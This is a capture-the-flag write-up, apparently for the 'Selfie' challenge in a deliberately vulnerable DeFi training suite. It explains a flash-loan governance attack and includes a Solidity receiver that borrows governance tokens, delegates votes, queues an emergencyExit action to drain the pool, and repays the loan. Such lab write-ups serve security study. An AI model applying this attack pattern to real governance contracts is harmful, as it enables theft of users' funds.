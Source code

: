# The number of token that you own represent you voting power.

There is two vulnerabilities in this challenge, one the that the voting power is directly proportional to the number of gov token that you own. And two, the `Selfie` pool offers `flash-loan` of gov tokens.

What you only have to do is create a flash-loan receiver contract(see `selfie/SelfieReceiver.sol` file)that borrow an amount of gov tokens enough to represent more than `51% `of tokens in circulation to be able to queue an action on the governance mechanism and after that return the funds to the pool.

That action can be to call `SelfiePool.emergencyExit` function in favor of the recovery address.
```js
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32){
@>      bytes memory actionData = abi.encodeCall(SelfiePool.emergencyExit, (payable(recovery)));
        uint256 receiverBalance = IERC20(token).balanceOf(address(this));
        console.log('receiverBalance: ', receiverBalance);
        
        DamnValuableVotes(token).delegate(address(this));
        governance.queueAction(address(pool), 0, actionData);

        IERC20(token).approve(address(pool), amount);
        return CALLBACK_SUCCESS;
    }
```

Once the action is queued you can call the `governance.executeAction ` function and the governance contract will execute  the `SelfiePool.emergencyExit` function with the given params.